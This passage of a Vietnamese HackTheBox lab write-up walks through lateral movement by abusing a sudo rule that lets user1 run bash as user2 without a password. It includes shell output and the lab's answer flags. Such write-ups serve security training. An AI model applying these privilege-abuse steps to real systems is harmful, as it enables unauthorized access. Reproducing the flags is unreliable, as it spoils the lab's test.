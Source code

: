 Dùng lệnh cat tại path `/root/.msf4/loot/20250115020934_default_94.237.58.147_simplebackup.tra_630420.txt`

![alt text](image-6.png)

![alt text](image-7.png)

## 17
### SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'. ? `HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}`

Dùng lệnh sudo -l kiếm tra quyền truy cập 
```
user1@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:~$ sudo -l
Matching Defaults entries for user1 on
    ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on
        ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:
    (user2 : user2) NOPASSWD: /bin/bash
```

Qua kết quả ta thấy user `user1` có thể chạy lệnh /bin/bash với quyền của user `user2` mà không cần nhập mật khẩu 

Ta chạy lệnh sudo -u user2 /bin/bash
```
user1@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:/home$ sudo -u user2 /bin/bash
user2@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:/home$ ls
user1  user2
user2@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:/home$ cd user2
user2@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:~$ cat flag.txt
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
```
### Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt' ? `HTB{pr1v1l363_35c4l4710n_2_r007}`
